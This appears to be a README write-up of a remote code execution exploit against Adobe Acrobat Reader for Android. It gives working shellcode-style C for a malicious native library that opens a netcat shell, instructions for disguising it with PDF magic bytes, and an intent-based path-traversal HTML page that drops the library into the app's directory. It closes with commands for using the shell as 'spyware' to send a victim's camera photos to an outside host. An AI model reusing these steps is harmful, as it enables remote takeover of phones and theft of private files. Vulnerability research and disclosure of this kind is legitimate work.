



### Step 0.

The .so file must be prefixed with `lib` and have the extension `.so` in order to be loaded by the JVM. For example, `libhello.so` is loaded by `System.loadLibrary("hello")`.

To understand the attack we had to decompile the APK file using JADX and APKTool, and then reconstruct the machine code into Java code. We used the following command to decompile the APK file.

```bash
apktool d app.apk
```

We then used JADX to decompile the .dex file into Java code. We used the following command to decompile the .dex file.

```bash
jadx -d jadx app.apk
```


The success of the attack depends on the CPU architecture of the device. If the device is ARM, then the .so file must be compiled for ARM. If the device is x86, then the .so file must be compiled for x86 and so on. Specifically, the .so file must be compiled for the same architecture as the device's CPU architecture otherwise it will not run. Our attack caters to x86_64 and arm64_v8a architectures.

## How it works?

### Step 1.

First create the code that will be compiled into the library code. We have the code stored in code.c.

```C++
#include <jni.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

JNIEXPORT jint JNI_OnLoad(JavaVM *vm, void *reserved)
{
    // Fork a new process
    pid_t pid = fork();

    if (pid == -1)
    {
        // Forking failed
        perror("Forking failed");
        return JNI_ERR;
    }

    if (pid == 0)
        system("toybox nc -p 6666 -L /system/bin/sh -l");

    JNIEnv *env;
    if (vm->GetEnv(reinterpret_cast<void **>(&env), JNI_VERSION_1_6) != JNI_OK)
    {
        return JNI_ERR;
    }

    return JNI_VERSION_1_6;
}

```

### Step 2.

Compile C++ code into shared library binary code using the Android NDK toolchain. This required installing the proper dependencies for compiling shared library code such as CMake. For more information on the NDK toolchain, see
https://developer.android.com/ndk/guides. After it is compiled, the shared library binary code is stored in the `libs` directory.

Edit the binary of the file to add the magic PDF bytes so Adobe will accept it as a PDF file. Any of the first 1024 bytes must be changed to the PDF magic bytes "%PDF" (0x25 0x50 0x44 0x46). We used a hex editor to do this and changed some of the first few bytes that were not being used.

```bash
hexedit libopen_cv_info.so
```



### Step 3.

The Android NDK toolchain compiles the C++ code into a shared library binary code and this all happens inside of Android Studio. It was simple to confirm the shared library binary code was compiled correctly by checking the logcat output for our print statements.

```Java
public class MainActivity extends AppCompatActivity {

    static { // Copied from source code
        Log.d("OpenCV/StaticHelper", "Trying to load library " + "opencv_info");
        try {
            System.loadLibrary("opencv_info");
            Log.d("OpenCV/StaticHelper", "Library " + "opencv_info" + " loaded");
        } catch (UnsatisfiedLinkError e) {
            Log.d("OpenCV/StaticHelper", "Cannot load library \"" + "opencv_info" + "\"");
            e.printStackTrace();
        }
    }
}
```



### Step 4.

Now that the code was ready and the PDF magic bytes were added, we needed to host it in a specific directory of our python server.

```bash
python -m http.server 8000
```

This attack uses path traversal to allow us to save the libopencv_info.so file in the library directory of Adobe Acrobat Reader. When attempting path traversal, we found that it was not working because the path traversal was also occurring on our server. So instead of have the file be named after the save location, we created the directory structure in our server and named the file `libopencv_info.so`. This allowed us to save the file in the correct directory and have the correct name. Thus using an intent whenever a user visits our server, it immediately downloads the file and saves it in the correct directory.

```HTML
<html>
	<title>RCE in Adobe Acrobat Reader for Android</title>
	<body>
		<script>
			window.location.href =
				'intent://94.59.94.173:8000/..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.adobe.reader%2Ffiles%2Fsplitcompat%2F1921819312%2Fnative-libraries%2FFASOpenCVDF.config.arm64_v8a%2Flibopencv_info.so#Intent;scheme=http;type=application/*;package=com.adobe.reader;component=com.adobe.reader/.AdobeReader;end';
		</script>
	</body>
</html>
```

### Step 5.

Now the file was saved, whenever the user would restart the app, the shared library file would be executed when using the Fill and Sign feature and thus a reverse shell would be created.

```bash
toybox nc -p 6666 -L /system/bin/sh -l
```

### Step 6.

To confirm if the reverse was successful, we used the ADB debugger and the following command.

```bash
adb -s [device-name] shell
ss -tuln
```



### Step 7.

Finally, we used the following command to enter the reverse shell.

```bash
ncat 192.168.0.180 6666
```

How to debug the app using ADB debugger. First, we need to find the device name using the following command.

```bash
adb devices
```

```bash
cd D:\Users\Admin\platform-tools_r34.0.5-windows\platform-tools
adb -s 23c00d78cd0c7ece logcat
```

## Using the reverse shell for spyware

Once the victim's device is compromised, we can use the reverse shell to send the victim's files to our device. We used the following command to send the victim's files to our device. Navigate to the directory where you want to save the files and then run the following command.

```bash
cd storage/emulated/0/DCIM/Camera
```

Open a receiver on your device to receive the files.

```bash
ncat -l 6667 > file.txt
```

Inside the reverse shell, run the following command to send the files to your device.

```bash
cat 20231125_153139.jpg | toybox base64 | toybox nc -w 3 192.168.0.108 6667
```

This will send the file to your device. You can then decode the image using a converter or the following command. I used one online as I had a Windows machine and the command works for Linux.

```bash
cat file.txt | toybox base64 -d > file.jpg
```
